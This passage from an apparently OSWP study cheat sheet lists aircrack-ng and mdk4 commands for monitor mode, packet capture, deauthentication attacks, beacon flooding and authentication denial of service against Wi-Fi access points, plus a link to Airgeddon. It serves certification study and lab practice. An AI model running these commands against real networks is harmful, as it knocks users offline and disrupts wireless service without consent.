 ```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Deauthentication attack
aireplay-ng -0 20 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

or

# Deauthentication broadcast attack
aireplay-ng -0 20 -a <BSSID> <INTERFACE>
```

### Airgeddon

Airgeddon can do pretty much any of the attacks view in this post.

```
https://github.com/v1s1t0r1sh3r3/airgeddon
```

## Not in the OSWP PDF (Going further)

### MKD4

#### Beacon flood (Non very effective)

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers. 

```
mdk4 <INTERFACE> b -n <AP_NAME> b -w nta -m
```

#### Authentication Denial-Of-Service (Non very effective)

Too many authentication requests at one time may cause the wireless access point to freeze up and perhaps stop working entirely.

```
mdk4 <INTERFACE> a -a <BSSID> -m
```

#### Deauthentication Flooding

This will sent deauth packets to any and all clients connected to the AP specified in the file.

```
mdk4 <INTERFACE> d -c <CHANNEL> -E <ESSID> -B <BSSID>
```

### WPA/WPA2
